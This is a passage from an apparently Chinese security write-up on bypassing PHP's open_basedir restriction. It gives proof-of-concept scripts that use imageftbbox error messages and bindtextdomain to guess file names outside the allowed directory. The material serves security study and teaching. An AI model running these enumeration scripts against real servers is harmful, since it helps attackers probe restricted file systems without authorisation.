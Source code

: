 看了一下其实和前面的 realpath 一样都是通过一些报错来进行猜解  
当文件存在，则 php 会抛出“File(xxxxx) is not within the allowed path(s)”错误。但当文件不存在的时候会抛出“Invalid font filename”错误。

POC：

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    //$m = imagecreatefrompng("zip.png");
    //imagefttext($m, 100, 0, 10, 20, 0xffffff, $file, 'aaa');
    imageftbbox(100, 100, $file, 'aaa');
}
function isexists($errno, $errstr)
{
    global $file;
    if (stripos($errstr, 'Invalid font filename') === FALSE) {
        printf("%s<br/>", $file);
    }
}
?>
```

# bindtextdomain 暴力执法

emm 原理还是一样但是鸡肋，因为 Windows 下面默认没有这个函数&&linux 下面是不能使用通配符进行绕过所以如果上面的方法都没有用才会考虑这些猜解的问题

```php
<?php
printf('<b>open_basedir: %s</b><br />', ini_get('open_basedir'));
$re = bindtextdomain('xxx', $_GET['dir']);
var_dump($re);
?>
```

# reference

1、 [https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.htm](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.htm)  
2、 [https://xz.aliyun.com/t/10070?time\_\_1311=mq%2BxBD9QDQe4RDBkPoGkYL5AKeGIhxqGOjeD](https://xz.aliyun.com/t/10070?time__1311=mq%2BxBD9QDQe4RDBkPoGkYL5AKeGIhxqGOjeD)  
3、 [https://www.v0n.top/2020/07/10/open\_basedir%e7%bb%95%e8%bf%87/](https://www.v0n.top/2020/07/10/open_basedir%E7%BB%95%E8%BF%87/)  
4、 [https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/](https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/)